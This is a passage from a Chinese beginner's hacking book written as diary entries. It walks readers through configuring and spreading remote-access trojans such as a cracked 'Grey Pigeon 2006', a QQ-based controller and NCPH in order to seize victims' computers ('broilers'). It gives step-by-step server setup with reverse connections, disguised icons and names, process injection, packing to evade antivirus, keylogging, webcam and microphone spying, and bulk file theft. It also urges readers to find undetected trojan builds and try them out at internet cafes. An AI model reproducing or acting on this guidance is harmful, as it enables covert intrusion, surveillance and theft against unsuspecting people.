说起木马来，也许其他的新新木马一般人不玩黑不知道，但是要说起第2代木马灰鸽子，就几乎无人不知，无人不晓了。其丰富而强大的功能、灵活多变的操作、良好的隐藏性使其他后门都相形见绌。客户端简易便捷的操作使刚入门的初学者都能充当黑客。很多刚开始学黑的小菜们衡量一个人水平怎么样、好不好，通常都用会不会用鸽子来衡量。我们经常听到好多小菜们抱怨：“我连灰鸽子还不会用呢！”由此可以看出灰鸽子影响力之大！

此外，在网上大大小小的电脑技术论坛都随处可见如何清除鸽子的帖子，许多能人异士都做了很多灰鸽子专杀工具。但是事物都是发展的，今天的木马被杀毒软件干掉后，明天马上就会有新版本的木马出来，然后再被杀毒软件干掉，然后再有新版本出来。今天我们要看的就是最新的灰鸽子破解版（小菜：破解版好啊！因为俺们都没什么钱！）是今年发布的，所以目前能过很多杀软。小菜们看完日记赶紧去网吧操练一下啊。早抓到肉鸡，早享用肉鸡的美味！射人先射马，擒贼先擒王，我们先来看看这匹马有什么可以在众多木马中脱颖而出的资本。作为2006年的鸽子究竟什么地方做了改进。

## 一、2006年灰鸽子特色之点：

- 1、只用一个端口来传输所有通讯数据！普通同类软件都用到了两个或两个以上

- 2、支持可以控制 Internet 连接共享、HTTP 透明代理上网的电脑！软件智能读取系统设定的代理服务器信息，无需用户设置！

- 3、无需知道服务端 IP，自动上线功能让服务端自动上线报道！灰鸽子专用的上线系统无需您注册免费域名才能使用，同时也提供了备用上线方式。在我们的专用上线系统出现故障时，您可以使用备用上线方式来使用自动上线功能。在使用专用上线系统时，你还可以控制远程电脑通过 Socks5 代理来中转自动上线。

- 4、自动上线可以在第一次设置分组，自定义上线图像、上线备注等，这样都可以让你轻而易举地找到目标主机，同时设置连接密码保证了服务主机的安全性！同时具有“牵手版”的搜索符合条件主机的功能：  
  - a、从主机窗口筛选：可以列出只有某个窗口的一批主机，可以轻松找到哪些人在玩某个游戏！  
  - b、从主机进程筛选：可以列出运行了某个程序的一批主机，例如 QQ.exe，就可以找到打开了 QQ 的自动上线主机有哪些了！

- 5、文件管理：管理远程电脑的文件系统，支持复制、粘贴、删除、断点下载、上传文件或文件夹，文件内容均以加密方式传输，确保通信的安全性。

- 6、远程控制命令：包括远程系统信息、剪切板信息、进程管理、窗口管理、键盘记录、服务管理、设备管理、MS-DOS 模拟、代理服务控制！

- 7、注册表编辑器：可以像操作本机注册表一样编辑远程注册表。

- 8、常用命令广播，让你控制众多主机更方便！详细的在线主机列表显示了：主机 IP 地址、地址位置、电脑名称、系统版本、备注等信息。

- 9、除了具有语音监听、语音发送，还有远程视频监控功能。只要远程计算机有摄像头，且正常打开没有被占用，那么你可以看到远程摄像头捕获的图片！还可以把远程摄像头捕获的画面存为 Mpeg-1 格式。远程语音也可以录制成 Wav 声音文件。

- 10、可以设置服务端开放 Socks5 代理服务器功能和 HTTP 代理服务功能！无需第三方软件支持！支持 Windows 9x/ME/2000/XP/2003。

- 11、软件附带有四款实用工具：  
  - a、EXE 工具：可以修改任何 EXE 文件图标，支持真彩色！  
  - b、内网端口映射器：它允许你将局域网内的服务映射到 Internet 上，使你在局域网内部也能使用自动上线功能！  
  - c、FTP 服务器：可以开本机 FTP 服务。  
  - d、Web 服务器：可以建立一个简单的 Web 服务器！

- 12、服务端程序在 Windows 2000/XP/2003 可以以服务启动，支持发送多种组合键，比如：Ctrl+Alt+Del 等等，适用于管理服务器主机！远程屏幕捕获还可以录制为 Mpeg-1 文件格式。

### 二、配置服务端

下载灰鸽子 2006 破解版，破解版本很多。用的是灰鸽子火狐专版。运行，可以看到其主界面（图52-1）。


图52-1


图52-2

单纯从其主界面上并没什么特色之处。但是俗话说得好，木马不可貌相，肉鸡不可斗装！（小菜：听着好耳熟啊！）我们要真正地见识下它的本领才能做出评价。

首先任何一款木马摆到我们面前，我们首先要做的是对其进行服务端的配置，其他倒都是次要的。首先点击主界面上的“文件”功能模块，也可以点击上面的“配置服务器程序”，然后进行设置工作（图52-3）。


图52-3

选择“自动上线”功能模块，开始进行设置。木马本身支持两种设置方法：网易域名更新 IP 和 FTP 更新 IP。不同的用户可以选择不同的方式来设置服务器生成方式。我们直接来看下域名设置的办法（图52-4）。


图52-4

如果没有域名可以去相关的网站去申请，这个前面已经介绍过，这里就不多说了。不过这里只支持 .126 和 .yeah.net 两种。另外强调一点的是申请域名成功后并不算完，我们还要去下载其对应的域名客户端，然后将你申请的用户名及密码登录，将我们的域名转向到本机的 IP。这样我们就可以把这个域名当作自己的公网 IP 来使用灰鸽子（有了这个域名，你是内网也相当于是公网了）。全部写上后就可以了。接下来我们看下 FTP 设置方式（图52-5）。


图52-5

没有 FTP 的小菜可以去网上申请或者找自己的朋友要。填写后点击“更新 IP 到 FTP 空间”，这样才能设置成功（图52-5）。

接下来选择“配置服务端程序”，开始最重要的配置工作（图52-6）。

可以看到在服务器配置里有 4 个选项，分别是自动上线、安装选项、启动项、代理服务这四个标签。我们一个一个来看，揭示鸽子强大的本源。先看下“URL 转向域名或网页文件”。这一点如果不明白的话，可以点输入框右边的“说明”，则会弹出个提示，告诉你如何填写及解释说明。这一点就比较好了，不像其他的木马那样，直接就给出来要填写，但是不告诉我们要填什么！我们先来点下“说明”，看下“说明”告诉我们什么（图52-7）。


图52-6


图52-7

告诉我们要写个地址和格式。但是小菜们会问：写什么地址呢？这里有必要先解释下灰鸽子的工作原理，因为灰鸽子是采取的反弹式链接，所以只要运行了我们服务端的用户再登录了我们设定的某个主页的特定文件，那么他们的机器就会主动连接到我们的电脑，从而被我们的电脑控制。

所以这里要填写的就是刚才我们在自动上线设置里提到的。如果你是采取的动态域名方式的话，那么这里就写上你申请的域名。如果用 FTP 设置的话，这里就写你的空间地址。

比如 http://你的网站地址/ip.txt，当然，如果你是固定 IP 的话呢，可以写你的 IP 地址，不过大多数的用户还都是在内网上网。

#### 自动连接密码

这个是表示你可以连接到的电脑所要用到的密码，如果为空的话，也没什么大不了的，顶多就是别人也可以使用你的“肉鸡”。

#### 代理服务

噢噢，就是你控制的电脑可以给我们作为一台代理服务器，说不定人家公布出来的代理服务器地址有一部分是这些电脑的哦~~~（图52-8），分别是开放 SOCKS5 代理和开放 HTTP 代理。


图52-8

#### 安装选项

是设置肉鸡上线的提示及图标的，安装名称可以起个迷惑性强的名字，其次上线图像默认的很多，包括 QQ 头像（图52-9），根据自己爱好来选择。而上线分组是对肉鸡进行管理了，可以按肉鸡的实际地址分组。

“启动项”：是对 9X 和 2000 启动时写入注册表所设置的。

“高级选项”这里主要是用来对付杀毒软件和防火墙用的，默认是插入 IEXPLORE，启动隐藏文件、隐藏插入的 IE 进程，以及使用 UPX 压缩，这里就不用去改它的，默认就行。

“服务器图标”：是用来伪装用的，你自己选项自己喜欢的图标吧~~~~。

配置好了就点击生成服务器，然后我们强大的灰鸽子就配置成功了！


图52-9


图52-10

### 三、远程控制管理

软件使用方法：当别人中了你的木马后，它会从你的网站读取 ip.txt 这个文件，然后主动连接到你的电脑，如果你此时也打开了客户端的话，连接建立成功，你可以控制这台电脑了。如果你是动态 IP 地址的话，那么你要每次把新的 ip.txt 上传到网站上去。

当设置成功后，就会在“符合条件主机”下面出来肉鸡的列表。我们可以对其进行屏幕的捕捉、视频的监控及文件的操作。这个时候肉鸡上的文件你是杀还是删，就悉听尊便了（图52-10）。

## 日记五十三：QQ远程控制1.0

2006年4月23日  晴  心情不爽


图53-1

“QQ远程控制1.0”是一款利用 QQ 作为客户端的远程控制软件。作者的思路够新颖的吧。

压缩包中一共有四个文件（图53-1），它们的名称及功能如下：

- 2in1.bat  捆绑执行文件
- config.dat  QQ 账号密码配置文件
- readme.txt  使用说明
- WingQQ.exe  主程序

> 注：MSVBVM60.DLL 和 MSWINSCK.OCX 当然不能算在程序中啦。虽然它们的作用也挺大的。嘿嘿~~

下面介绍一下 QQ 远程控制 1.0 的优势：

- 1. QQ 远程控制 1.0 完全使用 QQ 协议，通信时使用 QQ 服务器、端口，可躲过防火墙的包过滤设置。这是一些木马所不具备的功能。嘿嘿。我想现在没有哪个人会不让 QQ 运行吧！那么我们的小马就有了活力了，可以轻松地将可恶的防火墙给打垮。防火墙不攻自破。
- 2. 安全性。由于使用的是 QQ 的不可逆加密方式，通信内容不会被他人非法截取。我们就是要这样的安全性，因为我们可不想自己的秘密被别人给窃取了。
- 3. 灵活性。只要可以登录 QQ，使用者就可以对目标进行控制；通过把目标 QQ 加为好友，可以任意使用其它 QQ 对其进行控制。我们可以边聊天边控制别人的电脑，爽！~

QQ 远程控制 1.0 基于 CS 模式：这个客户端（C）就是你的 QQ；服务端（S）嘛，就是我们接下来要配置的 WingQQ.exe。说了许多了，来看下如何配置服务端（WingQQ.exe）：

- 1. 将所有文件放在同一目录下。一共四个文件前面提到了。
- 2. 配置 QQ 账号密码配置文件，需要一个你的 QQ 账号和密码，把账号密码依“*账号*密码*”的格式写入 config.dat 文件。  
  - 首先把 config.dat 用“记事本”打开（图53-2）。config.dat 文件的默认内容为：`*6465660*123456*`。我改为我的 `*397217136*mima*` 的形式保存（图53-3）。
- 3. 运行“2in1.bat”，把配置信息写入 WingQQ.exe 文件中。


> 注意：该操作只可进行一次，如果要配置多人请先对 WingQQ.exe 进行备份。

```bash
copy /b wingqq.exe+config.dat
```

2in1.bat 的源码（图53-4）如下：copy /b wingqq.exe+config.dat

- 4、在被控制机器上运行 WingQQ.exe，部分机器可能需要 MSVBVM60.DLL、MSWINSCK.OCX，所以在压缩包中加入了这两个东西。
- 5、登录 QQ（确保该 QQ 好友中有配置文件中的 QQ 号），接下来就可以发送控制指令向被控制端（正常的发送消息方式即可）。

那么控制指令都有哪些呢？

- 1、弹出消息框：  
  命令格式：ShowMsgBox 要显示的消息
- 2、执行命令行命令：  
  命令格式：CreateExcute 命令行命令
- 3、返回命令行命令执行结果：  
  命令格式：ExcuteResult

指令 2 与指令 3 配合使用，先使用指令 2 再使用指令 3。我们就可以实现对远程主机的命令行控制了。

### 软件功能概述

该软件主要用于远程监控，具体功能包括：

- 1、自动跟踪目标机屏幕变化，同时可以完全模拟键盘及鼠标输入，即在同步被控端屏幕变化的同时，监控端的一切键盘及鼠标操作将反映在被控端屏幕（局域网适用）；
- 2、记录各种口令信息：包括开机口令、屏保口令、各种共享资源口令及绝大多数在对话框中出现过的口令信息，且 1.2 以上的版本中允许用户对该功能自行扩充，2.0 以上版本还同时提供了击键记录功能；
- 3、获取系统信息：包括计算机名、注册公司、当前用户、系统路径、操作系统版本、当前显示分辨率、物理及逻辑磁盘信息等多项系统数据；
- 4、限制系统功能：包括远程关机、远程重启计算机、锁定鼠标、锁定系统热键及锁定注册表等多项功能限制；
- 5、远程文件操作：包括创建、上传、下载、复制、删除文件或目录、文件压缩、快速浏览文本文件、远程打开文件（提供了四种不同的打开方式——正常方式、最大化、最小化和隐藏方式）等多项文件操作功能；
- 6、注册表操作：包括对主键的浏览、增加、复制、重命名和对键值的读写等所有注册表操作功能；
- 7、发送信息：以四种常用图标向被控端发送简短信息；
- 8、点对点通信：以聊天室形式同被控端进行在线交谈。

### 一、文件列表

共有两个主要的文件 G_Server.exe 和 G_Client.exe。G_Server.exe：被监控端后台监控程序（运行一次即自动安装，可任意改名），在安装前可以先通过“G_Client”的“配置本地服务器程序”功能进行一些特殊配置；而 G_Client.exe：监控端执行程序，用于监控远程计算机和配置服务器程序。


### 二、配置服务端

程序的主界面（图54-1）。点击“配置服务端”图标，打开“服务器配置”对话框，来进行设置。首先进行“基本设置”：设置“安装路径”、“文件名称”、“进程名称”、“访问口令”、“敏感字符”（用以搜索远程主机敏感文件）、“提示信息”、“监听端口”、是否“自动删除安装文件”及“禁止自动拨号”（图54-2）。


“自我保护”：设置写入注册表项和冰河的关联文件（用以冰河文件被人删除后恢复）（图54-3）。  
“邮件通知”：设置接收 IP 邮件的信箱及邮箱 SMTP 服务器。还有发送邮件的内容。


## 黑客自己记

# 第八章：木马菜鸟连连看

全部设置好后，点“确定”完成配置（图54-4）。

### 三、远程监控

安装好服务器端监控程序后，运行客户端程序就可以对远程计算机进行监控了，客户端执行程序的各模块功能如下：

- 1. “添加主机”：将被监控端 IP 地址添加至主机列表，同时设置好访问口令及端口，设置将保存在“Operate.ini”文件中，以后不必重输。如果需要修改设置，可以重新添加该主机或在主界面工具栏内重新输入访问口令及端口并保存设置（图54-5）。
- 2. “删除主机”：将被监控端 IP 地址从主机列表中删除（相关设置也将同时被清除）（图54-6）。
- 3. “自动搜索”：搜索指定子网内安装有冰河的计算机。（例如欲搜索 IP 地址“192.168.0.100”至“192.168.0.255”网段的计算机，应将“起始域”设为“192.168.0”，将“起始地址”和“终止地址”分别设为“100”和“255”）（图54-7）；
- 4. “查看屏幕”：查看被监控端屏幕（相当于命令控制台中的“控制类命令\捕获屏幕\查看屏幕”）；
- 5. “屏幕控制”：远程模拟鼠标及键盘输入（相当于命令控制台中的“控制类命令\捕获屏幕\屏幕控制”）。其余同“查看屏幕”；
- 6. “冰河信使”：点对点聊天室，也就是传说中的“二人世界”（图54-8）；
- 7. “修改远程配置”：在线修改访问口令、监听端口等服务器程序设置，不需要重新上传整个文件，修改后立即生效；
- 8. “配置本地服务器程序”：在安装前对“G_Server.exe”进行配置（例如是否将动…）


### 四、文件管理器操作说明

文件管理器对文件操作提供了下列鼠标操作功能（图54-9）：

- 1. 文件上传：右键单击欲上传的文件，选择“复制”，在目的目录中粘贴即可。也可以在目的目录中选择“文件上传自”，并选定欲上传的文件；
- 2. 文件下载：右键单击欲下载的文件，选择“复制”，在目的目录中粘贴即可。也可以在选定欲下载的文件后选择“文件下载至”，并选定目的目录及文件名；
- 3. 打开远程或本地文件：选定欲打开的文件，在弹出菜单中选择“远程打开”或“本地打开”，对于可执行文件若选择了“远程打开”，可以进一步设置文件的运行方式和运行参数（运行参数可为空）；
- 4. 删除文件或目录：选定欲删除的文件或目录，在弹出菜单中选择“删除”；
- 5. 新建目录：在弹出菜单中选择“新建文件夹”并输入目录名即可；
- 6. 文件查找：选定查找路径，在弹出菜单中选择“文件查找”，并输入文件名即可（支持通配符）；
- 7. 拷贝整个目录（只限于被监控端本机）：选定源目录并复制，选定目的目录并粘贴即可。


## 日记五十五：管理型及反弹型木马——NCPH远程控制

学什么不如学管理的，因为管理很吃香。学什么千万也别学管理，因为管理很不好找工作。但是对于木马家族来说，这个观点就不成立了。用普通型木马不如用管理型木马，用单纯的管理型木马不如用既是管理型又是反弹型木马。我们来看下管理型+反弹型木马的代表——“NCPH远程控制”。

### 一、功能介绍

“完全免杀、支持断点续传、最小服务端，采用纯隧道技术全面提升链接速度，在进程端口服务方面增强了隐蔽性，消耗计算机资源极小，独特的仿真实计算机功能设置。虽限制了部分功能但不影响使用。加强做到了软件的小巧灵活。”这个就是“NCPH远程控制”的主要特征。怎么样？完全免杀？？这点让笔者充满了疑惑，难道有木马能幸免逃脱追杀？

疑惑中，经过笔者测试，全都被瑞星最新版本干掉了，所以免杀功能可能只是此木马刚推出时候的状态吧，所谓尽信书，不如不看书。

### 二、配置服务端

先来看看如何配置，解压后可以看到8个文件。比较有意思的是服务端的配置程序 Make.exe 和木马的客户端程序 ncph3.0.exe，图标都是非常可爱的动画片里机器猫的图标，估计木马作者很喜欢这部动画片啊。其次的 guiservice 这个程序，就是配置服务端必要的文件。其他还有个使用说明，4个辅助文件，如图55-1。


软件很不错，在我们介绍的这些木马里属于第2个将服务端配置程序和客户端程序分开的木马软件。单凭这一点，我们的菜鸟就格外喜欢这款软件。点击 make.exe，我们就可以来配置服务端程序，进而开始我们的木马之旅了！如图55-2。


从图上我们可以看到简单得不能再简单（菜鸟：比吃饭还简单吗？）的服务端配置程序的画面，只要写一个反弹地址，写一个反弹端口就 OK 了。

而反弹地址支持 IP 和域名反弹。固定 IP 一般很难搞到。所以我们就从动态域名下手了！如果没有，可以到免费申请的地址去申请一个，站点很多。比如我们学神气那天讲到的每步站就可以申请。服务端的反弹端口默认是54321。其实这个端口就是本地监听的端口，一般这种端口不会和系统任何一个端口产生冲突的，配置服务端配置程序的时候不难发现此处我们不能更改这个反弹端口（小菜：我想改，难道改不了默认端口吗？小行：一会你就可以改了！）。填好反弹地址后，点那个可爱的机器猫图标，选择要存的路径及文件名！如图55-3。就这么简单，我们就配置好服务端了！然后将服务端发给你的目标吧！


图55-3

## 三、远程控制端的介绍

配置完后，我们就来看看客户端控制程序。打开第2个机器猫标志的客户端程序，直接跳出了监听端口的设置（小菜：原来这里可以修改端口啊！）。将端口改成多少就看你个人爱好了。如图55-4。


图55-4

之后只要有目标运行了我们的客户端程序，我们确定后就可以看到上线的肉鸡。如图55-5。可惜竟然就一只肉鸡啊！

选择好肉鸡并点击菜单下的“管理”，如图55-6，就可以进行远程控制了。


图55-5

可以看到一个新的窗口打开，几个盘尽在你的控制之下！如图55-7。

这款木马的远程控制功能相当的多，可以说真是相当好的一匹木马，最上面一栏做出了相关功能模块。分别是磁盘、用户、共享、进程、注册表、自启动、服务、软件、硬件及桌面共10个功能模块！！我们一一来认识。


图55-6


图55-7

#### 磁盘

软件默认就是以它为主界面的，中间窗口处是我们的操作窗口。点击某个盘后，就可以对里面的任何文件进行操作，绝对的方便，如图55-8。不过，笔者唐僧几句：不要做不道德的事情。

这款木马的文件控制功能相当齐全，有上传和下载等基本功能，在操作和管理上和 radmin 非常相似。在使用木马过程中，我们发现很多木马的搜索功能都不是很强或者根本就没有。而这款木马的搜索功能非常强，如图55-9，只要在磁盘或者目录下查找需要的文件，就能批量下载了。

如果是网站服务器，就可以搜索 *.asp 来下载它的站点文件，如图55-10。当然可以搜索 *.mp3 来搜索肉鸡上的音频文件，还是根据自己需求来做吧！下载功能相当快，可能是因为纯隧道技术吧，同时管理项目也是相当的齐全，很多控制功能都是独具一格。


图55-8


图55-9


图55-10

- **用户：** 如同执行 net user 命令，可以显示当前电脑的用户名，如图55-11。
- **共享：** 是用来查看肉鸡的共享文件信息的。如果停止了 server 这个服务，就不存在默认共享了，如图55-12。
- **进程：** 可以查看和关闭肉鸡的进程信息，同时还可以查看进程加载的模块信息，这个就是大多数木马没有而我们木马却具有的独家功能了，如图55-13。
- **注册表：** 是用来连接查看远程注册表功能，只能读取不能操作，可以说是个小遗憾。如图55-14。
- **自启动：** 一些关于机器启动自动工作的程序。如图55-15。
- **服务：** 很详细的东西，我们可以做很多事情啊！如图55-16。
- **软件：** 能完全显示远程电脑的软件安装信息，根据软件信息直观地显示出肉鸡的杀毒软件、防火墙和补丁的安全情况。根据需要加固肉鸡，如图55-17。
- **硬件：** 能完全显示远程电脑硬件的设备管理器，为我们远程提供了相当有力的情报，而硬件的读取权限相当于木马给我们开的一个玩笑，如图55-18。
- **桌面：** 只能看到对方桌面，没过多的功能！如图55-19。


图55-13


图55-14


图55-15


图55-16


图55-17


图55-18

### 四、尾声

一款虽然还是测试版，但却十分强大的木马，只是在屏幕监视上还不太好的一款上好佳的木马软件，如果你还没玩过，赶快去吧！


## 日记五十六：木马学习总结

2006年4月26日 晴 心情晴

木马的种类其实很多，比如远程控制木马、网游木马、网页木马及各种形形色色的木马。而本章节介绍的都是一些常用的远程控制木马，基于 C/S 模式，并且这些木马功能强大。另外远程控制类木马通常被认为是木马中的正统。而此类木马关键之处在于其服务端的设置，要想叫你的马儿跑得快，跑得好，服务端的设置准确合理是必不可少的。根据不同的上网环境选择不同的配置服务端的方式，有的放矢，达到捉肉鸡没商量的目的。而有马儿的地方就是杀毒软件经常出没的地方，所以为了叫我们的木马能永远青春常驻，我们要不择手段。

### 1、为有源头活水来

其实做任何事情，也比不上从源头处理好。这就需要我们小菜们勤上网，勤动手，查找最新的木马版本及查找新木马。因为事实证明，最新版本的木马及新木马一般都会轻松躲过杀毒软件的追杀。因为杀毒软件的厂家即使发现有新木马了，到把它们加入查杀行列里也需要一定的时间。更何况，木马变种万万千。有的木马杀毒软件可能根本就不可能及时地把它们杀掉。

### 2、要找就找免杀木马

网上的能人和闲人都很多，当能人和闲人结合起来，就产生了很多免费的好东东。比如经常有既有能力又有时间的好心人给自己打造免杀木马。所以寻找这类木马来进行我们的抓肉鸡之旅，是再好不过的了！

### 3、自己学会加、脱壳

靠天靠地不如靠自己。免杀都是有时限的，也许刚才还是免杀的木马，转眼间就已经被杀软列入了查杀的对象，变成了一匹死马。所以我们要学会自己给木马加壳、脱壳。（前面的日记里我们有介绍，好好地看啊！）这里只提醒一点，加壳尽量加生僻壳啊！

### 4、找健壮的木马

找匹好木马，然后再开始你的抓肉鸡之旅，可以叫你事半功倍。比如我们在本章节里介绍的 C.I.A 那匹小马，加入关键词过滤可以将杀毒软件干掉。只要我们在实际的学黑过程中，勤动脑（思考），勤动手（多搜索），我们的小菜变小黑的过程就会短之又短，几天成就高手不是梦！木马种类繁多，本章节里的木马只不过是管中窥豹，望大家能举一反三，早日成为老鸟级别的人物。

## 后记

时间真快啊！转眼就过了这么长时间了。现在我已经和后街那小子和好了，并成为了一对非常要好的黑友！其实网络这个大江湖里，什么打打闹闹的都是小事情。互相攻击检测下，练下手，其实没什么的（只是千万注意不要搞破坏啊！）不必牵肠挂肚地总是睡不好、吃不好的。只要在任何事情上都把握个度就行，任何事情都有任何事情的道理。有位哲人说得好：“存在的就是有道理的”。在黑客技术入门这类的书籍很多，但我一直认为走鸟不是神仙，不可能什么都去看，什么都去学。所以我们菜鸟学习就要一步到位，或者尽量少走弯路。而最终控制了服务器就是我们的目的。如文章中有错误之处，还请各位大虾不吝赐教。

本书只是为以后的学习做个铺垫，NoHack. 还会推出一系列的精彩图书帮助各位菜菜入门。

精彩内容不容错过。请时刻关注 NoHack。

